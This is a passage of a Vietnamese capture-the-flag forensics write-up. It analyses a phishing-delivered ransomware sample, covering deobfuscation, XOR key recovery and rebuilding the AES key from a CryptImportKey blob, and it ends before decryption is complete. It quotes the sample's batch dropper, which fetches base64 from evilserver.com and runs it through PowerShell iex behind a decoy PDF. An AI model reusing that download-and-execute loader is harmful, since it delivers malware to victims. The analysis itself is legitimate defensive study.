Chall : https://drive.google.com/file/d/1A6PQX4KitPRWyPzkN-8TVUZpShLzK2mD/view?usp=drive_link

Description: I received an email from an unidentified sender who described an intriguing world. Intrigued by their narrative, I followed the link in the email, downloaded a file, and attempted to open it. To my surprise, my essential documents were suddenly encrypted. I'm now in need of assistance to recover them.


----
Đề cho 1 file zip, chỉ cần mở ra nhìn đã dễ dàng nhận ra là con CVE winrar khá nổi gần đây :v, nhưng đã đổi thành zip extension. Mình sẽ vào folder bên trong và extract thẳng con bat file ra. Nội dung file bat:

```
@echo off
setlocal
set "ServerURL=http://evilserver.com:8080/useless.png"
for /f "delims=" %%i in ('curl -s -X GET "%ServerURL%"') do set response=%%i
powershell "[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('%response%')) | iex"
Pancham.pdf
endlocal
```

Nó sẽ tải xuống useless.png, decode ra và iex để thực thi, sau đó pop up pdf để đánh lừa.

Decode nội dung và ta có được 1 script powershell bị obfuscate:

![image](https://github.com/NVex0/uWU/assets/113530029/1cacee44-d0a4-4075-9885-7076907e464e)

Mình dùng `PSDecode` để deobfuscate:

![image](https://github.com/NVex0/uWU/assets/113530029/842a0cb0-af31-4775-b9d6-1cd997c9d25e)

Code này sẽ thực hiện tải xuống con panpan.exe, mở file `final report` làm key xor và xor với các bytes trong panpan.exe (từ bytes thứ 1024, size xor là 31488). Sau khi xor thì sẽ thực thi con exe đầu ra.

Tuy nhiên ta không có file `final report`, mình ngồi thử với các header của file docx, pdf,....nhưng không khả quan. Nên khi mình load vào `pebear` cùng 1 vài sample PE 64 bit khác, mình để ý:

![image](https://github.com/NVex0/uWU/assets/113530029/61bdf04f-ae23-4596-9d66-749b23b84977)

Phần entry point của file này bắt đầu bằng 5 bytes 0, khá lạ, trong khi các file khác thì đều bắt đầu với dãy `48 83 EC 28 E8 F7 04 00 00 48 83 C4 28 E9 72 FE FF FF CC CC 40 53 48 83 EC 20 48 8B D9 33 C9 FF 15 BB 56 01 00 48 8B CB FF 15 AA 56 01 00 FF 15`, mình đem đi xor thử:

![image](https://github.com/NVex0/uWU/assets/113530029/07075e86-fee5-4a20-8c38-3dc7c254b054)

Để ý thấy `\x48\x83\xec\x28\xe8` lặp lại rất nhiều lần, mình đoán chắc rằng đây là xor key, mình xor thẳng lại với panpan.exe:

```
with open('PanCham.exe', 'rb') as f:
    fileb = f.read()

key = b"\x48\x83\xec\x28\xe8"
offset = 1024
size = 31488

with open("final.exe", "wb") as f:
    for i in range(len(fileb)):
        if i in range(offset, offset + size):
            f.write((fileb[i] ^ key[i % len(key)]).to_bytes(1, byteorder='big'))
        else:
            f.write(fileb[i].to_bytes(1, byteorder='big'))
```

Và load được vào ida mà không bị lỗi :v Nice. Mình tìm đến hàm main:

![image](https://github.com/NVex0/uWU/assets/113530029/59ee015a-6dd1-4eaf-b416-4d35c7c65b5c)

Sau 1 khoảng thời gian rất lâu đọc code:v, mình hiểu nó thực thi như sau:

1. GET data từ root của evilserver, sau đó dùng 1 hàm để decode base64. Data này dễ dàng thấy trong tcp stream 7.

2. xor decoded data ở trên với 8 bytes lấy từ file `version.txt`.

3. Dùng kết quả xor này, sẽ dùng để tạo key, iv,....các thứ, sau đó encrypt ảnh SensitiveData.png lại.

Vì không có file version.txt, ta buộc phải tự tìm lại key. Mình để ý tới hàm `CryptImportKey`, như bước thứ 3 mình nếu trên, kết quả của xor chính là dùng trong hàm này. hàm này sẽ phải khởi tạo PUBLICKEYSTRUC BLOB header trước, xong mới đến các thông tin khác. Dựa vào Blob, mình sẽ retrieve lại key như này:

+ Đầu tiên là 1 byte key blob type. Theo doc của microsoft, key blob type có 8 loại. Cái này mình sẽ bruteforce vì mình không biết key là loại nào.

+ Tiếp đến là 1 byte version, mà theo mình đọc thì nó thường được set = 0x02:

![image](https://github.com/NVex0/uWU/assets/113530029/ce8bdf12-a75b-4ef0-bfef-d79a1e181c70)

+ 2 bytes reversed, theo như doc của microsoft thì `must be set to zero`, vậy là mình có 0000.

+ Tiếp là 4 bytes ALG_ID lưu dưới dạng little endian, như đã nói trên, ở dưới mình thấy có hàm `CryptSetKeyParam` set các giá trị như cipher mode, padding mode, iv các thứ. Từ đó mình đoán rằng mã hóa này là AES, nhưng key length không rõ, nên mình sẽ thử ALG_ID của tất cả các loại length AES.

Mình brute thử key, trong quá trình brute mình để ý toàn bộ key đều là ASCII hết:

![image](https://github.com/NVex0/uWU/assets/113530029/c1804390-86c3-4ff1-a237-5798e6659c14)

Từ đó mình rút ra type sẽ là `PLAINTEXTKEYBLOB`, tức byte đầu = 0x08.

Rút ngắn phạm vi :v, vì là ASCII hết nên mình in thẳng char và được 4 key còn lại như này:

![image](https://github.com/NVex0/uWU/assets/113530029/e419ca64-3494-4173-a11c-a5895e968aa1)

:)) Key đầu chứa chữ rất meaningful, hợp lý hóa hơn thì nó là key tương ứng với ALG_ID của AES_256, đúng ý mình. Mình sẽ thử với xorkey này luôn.


